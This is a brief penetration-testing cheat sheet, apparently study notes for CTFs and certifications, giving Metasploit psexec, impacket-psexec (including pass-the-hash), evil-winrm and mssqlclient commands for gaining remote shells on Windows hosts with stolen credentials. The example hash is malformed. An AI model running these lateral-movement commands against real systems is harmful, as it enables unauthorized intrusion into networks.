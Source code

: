 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
impacket-psexec $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
impacket-psexec MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
impacket-psexec $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
impacket-psexec administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
# evil-winrm
```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
# mssql-client
```bash
impacket-mssqlclient $(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS) -windows-auth
```
